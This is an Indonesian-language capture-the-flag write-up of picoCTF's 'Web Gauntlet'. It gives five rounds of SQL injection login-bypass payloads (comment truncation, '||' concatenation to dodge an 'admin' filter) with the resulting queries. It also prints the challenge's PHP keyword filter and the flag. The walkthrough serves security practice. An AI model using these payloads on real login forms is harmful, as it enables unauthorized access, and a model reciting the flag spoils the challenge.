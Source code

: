 # Web Gauntlet
- Link: https://play.picoctf.org/practice/challenge/88?category=1&page=3

## Tantangan
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:9683/ http://jupiter.challenges.picoctf.org:9683/filter.php

## Penyelesaian
- Buka URL http://jupiter.challenges.picoctf.org:9683/ di browser untuk membuka form login

- Buka URL http://jupiter.challenges.picoctf.org:9683/filter.php di tab baru untuk melihat daftar string yang di filter


- Di ronde 1 string yang difilter hanya `or` jadi kita bisa memasukkan username berikut dan sembarang password
```sh
admin' --
```

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin' --' AND password='asdf'
```

- Di ronde 2 string yang difilter adalah sebagai berikut

- Dironde 2 kita bisa menginput username sebagai berikut dan passwordnya bebas
```sh
admin'/*
```

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin'/*' AND password='asdf'
```

- Di ronde 3 string yang difilter adalah sebagai berikut

- Dironde 3 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
admin'/*
```

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='admin'/*' AND password='asdf'
```

- Di ronde 4 string yang difilter adalah sebagai berikut

- Dironde 4 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
adm'||'in'/*
```

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='adm'||'in'/*' AND password='asdf'
```

- Di ronde 5 string yang difilter adalah sebagai berikut

- Dironde 5 kita bisa menginput username seperti ronde sebelumnya dan passwordnya bebas
```sh
ad'||'min'/*
```

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='asdf'
```

Sekarang kita buka URL http://jupiter.challenges.picoctf.org:9683/filter.php untuk mendapatkan flag. Berikut adalah isi halaman setelah kita berhasil membypass login
```sh
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
?>
```
- Flag
```sh
picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
```